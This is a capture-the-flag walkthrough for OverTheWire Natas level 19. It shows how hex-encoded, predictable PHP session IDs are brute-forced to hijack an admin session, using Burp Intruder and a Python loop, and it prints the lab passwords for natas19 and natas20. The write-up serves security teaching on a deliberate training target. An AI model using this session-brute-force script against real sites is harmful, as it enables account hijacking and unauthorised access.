

# Natas Level 19 Writeup (natas19) – OverTheWire

## Overview

This level focuses on exploiting a **predictable PHP session ID** vulnerability.

The goal is to obtain the password for the next level.

## Observation

When we open the page, we see a login form:

> **"This page uses mostly the same code as the previous level, but session IDs are no longer sequential..."**


## Finding the Password

### Using Browser & BurpSuite

1. Login with username `admin` and password `admin`. Then refresh the page after selecting Burp Proxy.

2. In BurpSuite, send the request to **Repeater** and check the PHPSESSID cookie.
Example:
    ```
    3339322d61646d696e
    ```

3. Decode the value from Hex to ASCII using `echo '3630382d61646d696e' | xxd -r -p`:
    ```
    608-admin
    ```

4. This shows that the session ID follows the pattern:
    ```
    <number>-admin
    ```

    and the complete value is then hex encoded.

5. Since the previous level used session IDs from 1 to 640, we can try:
    ```
    1-admin
    2-admin
    3-admin
    ...
    640-admin
    ```
    after hex encoding them.

6. Send request to `Intruder`, Then select hex value of number present in sessID as shown in pic.


7. Start Attack. then find the unique `Length` of payload that contain password. I got it on 1408.

#### Proof
```text
Username: natas20
Password: slOKYGsjlJhaqKliGvrgWAzln0JyrWao
```

### Using Python

```python
import requests, re

target = 'http://natas19.natas.labs.overthewire.org'
session = requests.Session()

session.auth = ('natas19', 'qvwtMqAcVSBlf7HE3sw9pljhqqPF9MMT')

for sessid in range(281, 641):
    hex_sessid = ''.join(f'{ord(i):02x}' for i in str(sessid))
    headers = {'Cookie': f'PHPSESSID={hex_sessid}2d61646d696e'}

    r = session.post(target, headers=headers)
    print(f"Trying sessid: {sessid}", end='\r')

    if 'You are an admin' in r.text:
        match = re.search(r'Password:\s(\w{32})', r.text)
        print("Password for next level is: ", match.group(1))
        break
```
It creates the session value in the same format used by the application.

## Vulnerability

The PHPSESSID is predictable because it contains the session number and username. The value is only hex encoded, so we can easily decode and brute-force it.

## Password

`slOKYGsjlJhaqKliGvrgWAzln0JyrWao`
